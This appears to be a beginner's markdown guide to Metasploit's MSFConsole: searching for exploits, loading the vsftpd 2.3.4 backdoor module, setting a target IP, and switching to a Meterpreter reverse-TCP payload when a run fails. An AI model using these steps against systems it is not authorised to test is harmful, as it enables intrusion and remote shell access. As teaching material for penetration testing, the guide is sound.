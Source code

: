 # Metasploit - MSFConsole Guide

##  Introduction
Metasploit is a powerful **penetration testing framework** that provides a variety of exploits, payloads, and auxiliary tools for security assessments. The **MSFConsole** is the main command-line interface for interacting with Metasploit.

---

##  Finding Exploits
Before using Metasploit, you can search for available exploits using **SearchSploit** or within **MSFConsole**.

### **Using SearchSploit (Offline Exploit Database)**
```bash
searchsploit <query>
```
- Looks up exploits from **Exploit-DB**.
- Example:
  ```bash
  searchsploit Apache 2.4
  ```

### **Using MSFConsole to Search for Exploits**
```bash
msfconsole
search <query>
```
- Example:
  ```bash
  search vsftpd
  ```
- This will return all matching **exploits, auxiliary modules, and payloads**.

---

##  Using an Exploit
Once an exploit is found, load it into the console.

### **Select an Exploit**
```bash
use <exploit_name>
```
- Example:
  ```bash
  use exploit/unix/ftp/vsftpd_234_backdoor
  ```

### **Checking Available Options**
```bash
options
```
- Displays required parameters (e.g., **RHOSTS**, **LPORT**, **PAYLOAD**).

---

##  Setting Target & Payload
### **Set the Target IP Address**
```bash
set RHOSTS <target_ip>
```
- Example:
  ```bash
  set RHOSTS 192.168.1.100
  ```

### **Confirm Current Options**
```bash
options
```
- Verify if required parameters are properly configured.

### **Check Available Targets**
```bash
show targets
```
- Lists **supported OS and versions** for the exploit.

### **Run the Exploit**
```bash
run
```
- Attempts to execute the exploit on the target system.

---

##  Troubleshooting: If the Exploit Fails
Sometimes, an exploit may fail or **crash unexpectedly**. Try the following steps:

1. **Check Available Options Again**
   ```bash
   options
   ```
   - This may display **additional parameters** required.

2. **Change the Payload**
   ```bash
   set payload <query>
   ```
   - Example:
     ```bash
     set payload linux/x86/meterpreter/reverse_tcp
     ```

3. **Confirm Payload Works**
   ```bash
   options
   ```
   - Ensure the **new payload** settings are applied correctly.

4. **Run the Exploit Again**
   ```bash
   run
   ```

---

##  Conclusion
Metasploit is an essential tool for penetration testing, and **understanding how to search, configure, and troubleshoot exploits** is key. If an exploit fails, **experiment with different payloads and configurations** to improve success rates.

